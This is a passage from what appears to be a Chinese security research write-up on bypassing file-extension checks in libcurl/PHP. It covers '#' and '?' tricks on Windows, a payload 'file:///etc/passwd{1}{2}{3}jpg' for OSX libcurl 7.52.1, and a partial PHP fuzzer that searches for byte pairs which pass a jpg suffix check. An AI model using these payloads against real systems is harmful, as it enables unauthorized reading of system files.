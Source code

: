 [![](assets/1701606471-d3f3080e3efef31640a0ad2bcd820e6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127143637-5095fae4-8cef-1.png)

经过测试可以知道 Window 下通过 # 和 ? 可以绕过后缀限制。

[![](assets/1701606471-71d4f4de8895788e6816df9d244840b0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231127145618-107b0c1c-8cf2-1.png)

**OSX libcurl: 7.52.1**

url=file:///etc/passwd{1}{2}{3}jpg

编写`fuzz.php`，直接`255*255*255`次数太多会导致内存分配出错，`255*255*2`会好一点，代码设计如下

```plain
<?php
error_reporting(E_ALL & ~E_WARNING);
ini_set('memory_limit', '-1');
$url = "file:///etc/passwd";
$validArrays = array();
for($pos=0; $pos<=255; $pos++){
    $char1 = sprintf("%02x", $pos);
    for($p2=0; $p2<=255; $p2++){
        $char2 = sprintf("%02x", $p2);
        $url .= urldecode("%".$char1);
        $url .= urldecode("%".$char2);
        // 第一种
        //$url.= ".jpg";
        // 第二
        $url .= "jpg";
        $ext = pathinfo($url, PATHINFO_EXTENSION);
        if($ext == "jpg"){
            array_push($validArrays, $url);
```